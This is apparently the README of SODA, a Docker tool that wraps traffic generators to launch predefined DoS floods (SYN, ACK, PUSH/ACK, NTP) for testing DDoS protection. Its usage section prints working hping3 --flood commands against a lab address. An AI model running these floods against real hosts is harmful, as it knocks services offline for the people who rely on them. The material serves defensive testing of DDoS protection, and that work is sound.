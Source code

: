 # Simulation of DDoS Attacks
## Description
SODA wraps up together multiple traffic generation tools to symplify and unify DoS protection testing. It allows to send any kind DoS attack by specifying its name without figuring out flags for particular traffic generation tool.
Such approach also allows to standardize DoS posture testing because attack patterns are repeatable..
## Features
- Large list of predefined DoS attacks
- Sends single attack vector or morphs vector with predefined pattern and interval
- Automatically scales particular attack tool to multiple CPU cores
## Usage
1. Build SODA image
```
attacker@host$ docker build -t . soda
```
2. List all avaliable attacks and pick attack ID
```
attacker@host$ docker run --rm soda -l
0: TCP SYN Flood
1: NTP Flood
2: TCP SYN/ACK Flood
3: NTP Non-standard Port Flood
4: TCP Zero Sequence Flood
5: TCP ACK Flood
6: TCP PUSH/ACK Flood
```
3. Launch SODA
```
attacker@host$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock soda -d http://10.11.73.12/url.html -n vlan973 -i 3 -a 4
2019-08-01 18:20:30.350264 ATTACK START: TCP Zero Sequence Flood: hping3 -S -p 80 -M 0 --flood 10.11.73.12
2019-08-01 18:20:38.004443 ATTACK STOP: TCP Zero Sequence Flood
2019-08-01 18:20:38.034628 ATTACK START: TCP ACK Flood: hping3 -A -p 80 --flood 10.11.73.12
2019-08-01 18:20:45.697750 ATTACK STOP: TCP ACK Flood
2019-08-01 18:20:45.729307 ATTACK START: TCP PUSH/ACK Flood: hping3 -PA -p 80 -d 64 --flood 10.11.73.12
2019-08-01 18:20:53.370087 ATTACK STOP: TCP PUSH/ACK Flood
^CKilling all running containers...
goofy_keldysh
```
### Example of on-prem lab to test DDoS protection device
[Link](https://github.com/KEN-Ver1/soda-lab)
